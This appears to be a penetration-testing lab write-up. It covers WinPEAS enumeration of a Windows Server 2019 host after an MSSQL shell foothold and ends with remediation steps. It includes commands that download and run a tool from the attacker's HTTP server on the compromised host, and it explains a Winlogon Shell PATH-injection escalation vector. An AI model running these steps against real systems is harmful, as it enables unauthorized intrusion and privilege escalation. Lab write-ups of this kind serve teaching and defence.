


# Post-Exploitation Enumeration with WinPEAS

## Summary
Following the initial foothold gained via MSSQL (`xp_cmdshell` → Meterpreter shell — see previous writeup), I used **WinPEAS** to enumerate the compromised Windows host for local privilege escalation vectors. This included identifying the OS build, checking for known CVEs, reviewing autorun persistence points, and inspecting environment variables.

**Target:** `10.10.1.30` (Windows Server 2019 Standard, `SERVER2019`)
**Attacker host:** Parrot OS (`attacker@parrot`)
**Tools used:** Meterpreter shell, Python HTTP server, WinPEAS (`winPEASx64.exe`)

---

## 1. Delivering WinPEAS to the Target

From the Meterpreter shell, I dropped into a native command shell and confirmed context:

```
C:\Windows\system32>whoami
nt service\mssql$sqlexpress
```

To transfer tools, I hosted `winPEASx64.exe` on my attacker machine using Python's built-in HTTP server:

```
cd /root/Adtools/
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.1.30 - - [12/Sep/2026 17:46:37] "GET /winPEASx64.exe HTTP/1.1" 200 -
```


On the target, I navigated to a writable directory, downloaded the binary, and ran it:

```
C:\Users\Public\Downloads>powershell
PS C:\Users\Public\Downloads> wget http://10.10.1.13:8000/winPEASx64.exe -o winpeas.exe
PS C:\Users\Public\Downloads> ./winpeas.exe
```


---

## 2. WinPEAS Startup

WinPEAS launched and displayed its standard banner and color-coded legend for interpreting results:

```
WinPEAS-ng by @hacktricks_live

[+] Legend:
Red         Indicates a special privilege over an object or something is misconfigured
Green       Indicates that some protection is enabled or something is well configured
Cyan        Indicates active users
Blue        Indicates disabled users
LightYellow Indicates links
```



---

## 3. Basic System Information

WinPEAS enumerated core host details, confirming the target as a virtual machine running Windows Server 2019:

```
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
Hostname: SERVER2019
ProductName: Windows Server 2019 Standard
IsVirtualMachine: True
PartOfDomain: False
Hotfixes: KB5020627 (11/5/2022), KB5019966 (11/5/2022), KB5020374 (11/5/2022)
```


---

## 4. Known Vulnerability Check

WinPEAS cross-referenced the installed hotfixes against known exploited vulnerabilities for this build, matching **52 known exploited vulnerabilities**, including several Critical Remote Code Execution CVEs:

```
Matched 52 known exploited vulnerabilities for this running Windows version.
CVE-2018-8544  KB4467708 [Critical] Remote Code Execution
CVE-2025-47981 KB5062557 [Critical] Remote Code Execution
CVE-2025-59287 KB5070883 [Critical] Remote Code Execution
...
CVE-2019-0731  KB4493509 [Important] Elevation of Privilege
CVE-2019-0735  KB4493509 [Important] Elevation of Privilege
```

The scan also pulled **user environment variables**, which can occasionally leak credentials or service paths:

```
COMPUTERNAME: SERVER2019
PUBLIC: C:\Users\Public
LOCALAPPDATA: C:\Windows\ServiceProfiles\MSSQL$SQLEXPRESS\AppData\Local
```


---

## 5. Autorun / Persistence Points

WinPEAS also enumerated AutoRun registry keys and startup binaries — useful both for spotting existing persistence and for identifying potential privilege escalation via writable autorun paths:

```
RegPath: HKLM\Software\Microsoft\Windows\CurrentVersion\Run
Key: SecurityHealth
File: C:\Windows\system32\SecurityHealthSystray.exe

RegPath: HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
Key: Shell
Folder: None (PATH Injection)
File: explorer.exe
```

The `Shell` key flagged as **PATH Injection** is notable — since no folder is specified, Windows resolves `explorer.exe` through the system PATH, so a writable directory earlier in the PATH could allow a malicious `explorer.exe` to execute at logon.



---

## Key Takeaways

- The service account running MSSQL (`nt service\mssql$sqlexpress`) had enough access to download and execute arbitrary binaries, enabling tool transfer for further enumeration.
- The target was running an **unpatched Windows Server 2019** build with 52 known exploitable CVEs, including multiple Critical RCE vulnerabilities — any of these could offer an alternate path to full compromise or privilege escalation.
- The `Winlogon\Shell` registry key's PATH injection weakness is a classic local privilege escalation vector if an attacker can write to an earlier PATH directory.

## Remediation

- Apply current security patches — a host matching 52 known exploited CVEs indicates patching is significantly behind.
- Restrict outbound internet/file-transfer access for service accounts; the MSSQL service account should not be able to freely download and execute binaries.
- Harden registry autorun entries: ensure `Winlogon\Shell` and similar keys always specify a full, non-writable path rather than relying on PATH resolution.
- Monitor for execution of known offensive security tools (WinPEAS, PEASS-ng signatures) via EDR/AV.

---

*This was performed in an isolated lab environment against private IP ranges (`10.10.x.x`) for educational purposes only, continuing from the MSSQL exploitation writeup.*
